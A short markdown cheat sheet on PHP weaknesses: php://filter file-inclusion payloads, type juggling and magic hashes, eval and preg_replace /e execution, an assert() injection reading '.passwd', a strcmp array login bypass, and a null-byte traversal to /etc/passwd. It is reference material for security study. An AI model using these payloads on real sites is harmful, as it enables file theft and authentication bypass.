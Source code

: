 ```yaml
---
title: PHP vulnerabilities
description: PHP vulnerabilities
---
```


# PHP

## PHP Wrappers

Official docs [here](https://www.php.net/manual/en/wrappers.php).

All wrappers :

```
file:// — Accessing local filesystem
http:// — Accessing HTTP(s) URLs
ftp:// — Accessing FTP(s) URLs
php:// — Accessing various I/O streams
zlib:// — Compression Streams
data:// — Data (RFC 2397)
glob:// — Find pathnames matching pattern
phar:// — PHP Archive
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — Audio streams
expect:// — Process Interaction Streams
```

File inclusion :

```
php://filter/resource=index.php
php://filter/read=convert.base64-encode/resource=index.php
php://filter/read=string.toupper/resource=index.php
php://filter/read=string.toupper|string.rot13/resource=index.php
```

## Type juggling

If you use `===`, PHP will do a strict comparison.

```php
"1" == 1        True
"1" === 1       False
"admin" == 0    True
"admin" === 0   False
```

You can find the comparison table [here](https://www.php.net/manual/en/types.comparisons.php).

## Magic Hashes

You cand find a list of magic hashes [here](https://github.com/spaze/hashes).

```php
md5('QLTHNDT') = 0e405967825401955372549139051580
0e405967825401955372549139051580 = 0 exponents 405967825401955372549139051580 = 0
php > var_dump(md5('QLTHNDT') == "0");
bool(true)
```

`0 power n` is equals to `0`.

## Interesting function

**eval** code execution :

```php
eval("phpinfo();");
```

**preg_replace** code execution (removed since PHP v7.0.0)

```php
preg_replace('/test/e', 'phpinfo()', 'test');

PREG_REPLACE_EVAL
```

More informations [here](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)

**assert** without verification :

```php
assert("strpos('includes/$_GET['name'].inc.php', '..') === false")

victim.com/index.php?name=', 'A') === false and strlen(file_get_contents('.passwd')) === 10 and strpos('

Will result as : assert("strpos('includes/', 'A') === false and strlen(file_get_contents('.passwd')) === 10 and strpos('.inc.php', '..') === false")
```

**strcmp** array / null bypass :

```php
php > var_dump(strcmp(Array(), "admin") == 0);
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
bool(true)

Ex: strcmp($_GET['username'], 'admin') == 0
victim.com/index.php?name[]=
```

```php
php > var_dump(strcmp(null, "admin") == True);
bool(true)

php > var_dump(strcmp(null, "admin") === True);
bool(false)
```

## Tips

### Null byte

Null Byte : %00 (PHP Version < 5.3.4)

`http://victim.com/index.php?file=../etc/passwd%00`
